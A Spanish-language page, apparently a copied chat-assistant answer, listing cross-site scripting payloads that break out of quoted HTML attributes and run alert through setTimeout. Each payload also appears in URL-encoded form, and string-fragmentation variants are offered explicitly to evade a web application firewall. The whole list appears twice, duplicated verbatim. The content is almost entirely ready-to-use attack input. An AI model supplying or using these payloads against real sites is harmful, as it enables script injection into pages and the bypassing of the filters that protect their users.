 

### Payloads para Cerrar las Comillas y Ejecutar `alert`

#### 1. **Cerrar las Comillas con `"` y Escapar con `\`**

html

Copiar código

`"\x60-setTimeout\x60alert\x601\x60\x60-\x60"`

Codificado en URL:

html

Copiar código

`%22%60-setTimeout%60alert%601%60%60-%60`

#### 2. **Cerrar las Comillas con `'` y Usar `\` para Escapar**

html

Copiar código

`'"\x60-setTimeout\x60alert\x601\x60\x60-\x60'`

Codificado en URL:

html

Copiar código

`%27%22%60-setTimeout%60alert%601%60%60-%60%27`

#### 3. **Usar `&#34;` para Cerrar las Comillas y Ejecutar `alert`**

html

Copiar código

``` &#34;`-setTimeout`alert`1``-` ```

Codificado en URL:

html

Copiar código

`%26%2334%3B%60-setTimeout%60alert%601%60%60-%60`

### Estrategia con Fragmentación

Para evadir mejor el WAF, podemos usar la fragmentación de cadenas:

#### 4. **Fragmentación de Cadenas**

html

Copiar código

`` `-window['set'+'Timeout']('alert(1)', 0)-` ``

Codificado en URL:

html

Copiar código

`%60-window%5B%27set%27%2B%27Timeout%27%5D%28%27alert%281%29%27,%200%29-%60`

Y cerrar las comillas del valor:

html

Copiar código

``"'`-window['set'+'Timeout']('alert(1)', 0)-'"``

Codificado en URL:

html

Copiar código

`%27%22%60-window%5B%27set%27%2B%27Timeout%27%5D%28%27alert%281%29%27,%200%29-%60%27`

### Payloads para Cerrar las Comillas y Ejecutar `alert`

#### 1. **Cerrar las Comillas con `"` y Escapar con `\`**

html

Copiar código

`"\x60-setTimeout\x60alert\x601\x60\x60-\x60"`

Codificado en URL:

html

Copiar código

`%22%60-setTimeout%60alert%601%60%60-%60`

#### 2. **Cerrar las Comillas con `'` y Usar `\` para Escapar**

html

Copiar código

`'"\x60-setTimeout\x60alert\x601\x60\x60-\x60'`

Codificado en URL:

html

Copiar código

`%27%22%60-setTimeout%60alert%601%60%60-%60%27`

#### 3. **Usar `&#34;` para Cerrar las Comillas y Ejecutar `alert`**

html

Copiar código

``` &#34;`-setTimeout`alert`1``-` ```

Codificado en URL:

html

Copiar código

`%26%2334%3B%60-setTimeout%60alert%601%60%60-%60`

### Estrategia con Fragmentación

Para evadir mejor el WAF, podemos usar la fragmentación de cadenas:

#### 4. **Fragmentación de Cadenas**

html

Copiar código

`` `-window['set'+'Timeout']('alert(1)', 0)-` ``

Codificado en URL:

html

Copiar código

`%60-window%5B%27set%27%2B%27Timeout%27%5D%28%27alert%281%29%27,%200%29-%60`

Y cerrar las comillas del valor:

html

Copiar código

``"'`-window['set'+'Timeout']('alert(1)', 0)-'"``

Codificado en URL:

html

Copiar código

`%27%22%60-window%5B%27set%27%2B%27Timeout%27%5D%28%27alert%281%29%27,%200%29-%60%27`




